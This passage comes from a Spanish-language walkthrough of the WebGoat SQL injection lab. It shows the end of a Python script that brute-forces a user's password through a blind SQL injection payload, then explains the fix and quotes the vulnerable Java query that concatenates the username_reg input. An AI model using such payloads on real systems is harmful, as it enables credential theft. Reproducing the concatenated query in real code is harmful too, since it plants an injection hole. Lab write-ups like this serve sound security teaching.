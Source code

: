 ```python
    solucion = ""
    limit = 30
    
    for i in range(1,limit):
        for letra in abc:
            payload = "tom\' AND substring(password,{},1)=\'{}".format(i, letra)
            if(request_vuln(peticion, payload)):
                solucion += letra
                print(solucion)
    
run()
```

#### Mitigación
En el proceso de mitigación de esta vulnerabilidad, ocurre algo muy curioso, por que se tienen 2 consultas a la base de datos, pero solo que una es vulnerable y la otra esta desarrollada de forma segura.
1. La primera consulta si el usuario a registrar ya existe o no. 
2. La segunda inserta los datos en la base de datos y crea el nuevo usuario.
- ``\webgoat-lessons\sql-injection\src\main\java\org\owasp\webgoat\sql_injection\advanced\SqlInjectionChallenge.java``

![Código Vulnerabilidad](/assets/webgoat/A1/1_sql_injection/10_codigo_vulnerabilidad.png)
_Código Vulnerabilidad_

Cómo se puede observar, la sección enmarcada en amarillo corresponde a vulnerabilidad que se da e una consulta a base de datos, debido a que esta concatena de forma directa el parametro ``username_reg`` el cual es controlado por el usuario. 

```java
String checkUserQuery = "select userid from sql_challenge_users where userid = '" + username_reg + "'";
```
